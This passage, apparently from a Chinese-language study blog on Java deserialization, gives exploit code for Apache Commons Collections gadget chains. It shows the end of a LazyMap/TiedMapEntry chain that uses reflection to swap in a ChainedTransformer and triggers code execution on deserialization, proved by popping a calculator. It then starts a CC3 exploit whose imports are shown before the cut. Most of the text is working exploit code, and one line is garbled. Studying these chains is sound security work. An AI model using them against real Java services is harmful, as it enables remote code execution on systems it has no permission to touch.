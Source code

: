 ```java=
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("five")); // 防止在反序列化前弹计算器  
 TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");  
 HashMap<Object, Object> expMap = new HashMap<>();  
 expMap.put(tiedMapEntry, "value");  
 lazyMap.remove("key");  
  
 // 在 put 之后通过反射修改值  
 Class<LazyMap> lazyMapClass = LazyMap.class;  
 Field factoryField = lazyMapClass.getDeclaredField("factory");  
 factoryField.setAccessible(true);  
 factoryField.set(lazyMap, chainedTransformer);  
  
 serialize(expMap);  
 unserialize("ser.bin");  
 }  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```
运行之后就可以弹计算器

## CC3 链
不多说声明，看芜师傅的文章就可以了
### CC3 链分析

### CC3 链 EXP
#### CC1 链作为前半部分
```java=
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InstantiateTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// CC3 链最终 EXPpublic class CC3FinalEXP {  
    public static void main(String[] args) throws Exception  
```